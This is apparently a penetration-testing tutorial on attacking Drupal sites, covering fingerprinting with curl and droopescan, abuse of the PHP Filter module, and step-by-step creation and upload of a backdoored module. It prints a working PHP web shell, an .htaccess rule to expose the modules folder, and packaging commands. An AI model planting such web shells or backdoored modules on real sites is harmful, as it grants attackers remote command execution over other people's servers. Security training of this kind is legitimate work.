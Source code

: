 ```yaml
---
title: Pentesting Drupal
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - drupal
---
```

# Pentesting Drupal

Drupal is written in PHP and supports using MySQL or PostgreSQL for the backend.

## Important Drupal files and directories

A Drupal website can be identified in several ways, including by the header or footer message Powered by Drupal, the standard Drupal logo, the presence of a CHANGELOG.txt file or README.txt file, via the page source, or clues in the robots.txt file such as references to /node.

```
curl -s http://$target | grep Drupal
```

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.


## Version

It does not work on all versions:

```shell-session
curl -s http://$target/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal --url http://$target
```

Make sure to  heck the CVE associated at: https://www.cvedetails.com/vulnerability-list/vendor_id-1367/product_id-2387/Drupal-Drupal.html

## Users

Drupal supports three types of users by default:

- Administrator: This user has complete control over the Drupal website.
- Authenticated User: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
- Anonymous: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.


## Leveraging the PHP Filter Module

Unlike some CMS', obtaining a shell on a Drupal host via the admin console is not as easy as just editing a PHP file found within a theme or uploading a malicious PHP script.

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."  From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves.   Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on Browse, select the file from the directory we downloaded it to, and then click Install.

## Uploading a Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module.

**1.** Download the archive and extract its contents.

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

**2.** Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```


**3.** Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

**4.** The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```shell-session
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

**5.** Assuming we have administrative access to the website, click on Manage and then Extend on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdoored Captcha archive and click Install.